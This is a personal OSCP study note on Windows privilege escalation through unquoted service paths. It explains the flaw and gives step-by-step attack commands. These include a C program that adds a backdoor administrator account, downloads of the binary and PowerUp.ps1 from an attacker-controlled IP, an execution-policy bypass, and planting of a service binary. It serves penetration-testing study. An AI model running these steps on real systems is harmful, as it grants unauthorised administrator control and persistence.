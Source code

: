 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/i. Windows Privilege Escalation/7. Unquoted Service Paths/"}
---
```


- Works when we have write-permissions to a service's main- or sub-directories but cannot replace files within them.
- Services are started with 'CreateProcess' and the parameter 'IpApplicationName'. If the path that follows that parameter contains one or more spaces and is not enclosed within quotes it may be abused for a privesc.
- Paths are read from left to right, and for every space all preceding words are interpreted as executables, and the rest as arguments. Example:
```
C:\Program Files\My Program\My Service\service.exe
---------------------------------------------------
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- Therefore if that happens an executable with one of those name can be placed an used to privesc.
------------

### Unquoted Service Path Service Privesc:
1. Enumerate running services for misconfigured paths (only works in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2. Check for write access rights in the service's butchered search order swith 'icacls'.
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Restart the service -- win!
-------------------------

### Automatic Unquoted Service Path Privesc with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check for vulerable paths:
```
Get-UnquotedService
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Write-ServiceBinary -Name '<servicename>' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
7. Win!

